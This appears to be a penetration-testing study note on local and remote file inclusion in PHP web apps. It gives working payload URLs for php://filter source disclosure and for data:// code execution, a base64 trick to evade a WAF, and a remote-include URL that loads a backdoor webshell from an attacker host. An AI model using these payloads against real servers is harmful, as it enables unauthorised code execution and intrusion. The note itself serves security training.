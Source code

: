 # LFI
1. Find out which server-side scripting language is used (e.g. php, jsp)
2. Write (webshell) code to a file on the server (e.g. using log poisoning)
3. Include the file using LFI vulnerability
4. Gain remote shell via webshell

Note that we can also find LFI vulnerabilities in modern back-end JavaScript runtime environments like Node.js

## PHP wrappers

### `php://filter`
- display the contents of executable files (such as .php) instead of executing them
- e.g. `http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=admin.php`
	- Decode output with `echo "output" | base64 -d`

### `data://`
- embed data elements as plaintext or base64-encoded data in the running web application’s code (useful for when we cannot poison a local file)
- e.g. `http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>`
- To bypass WAF, may encode payload in b64
	- `echo -n '<?php%20echo%20system('ls');?>' | base64` (replace `%20` with space)
	- `"http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,[insert-above-output]&cmd=ls`
- Note: this wrapper does not work in a default PHP installation. The *allow_url_include* option needs to be enabled.

# RFI
Note: The *allow_url_include* option needs to be enabled for RFI. (It is disabled by default.)

RFI: Include files from a remote system over HTTP or SMB, then executed in the context of the web application.

Webshells in `/usr/share/webshells/` directory in Kali can be used.

Example:
- `http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls`

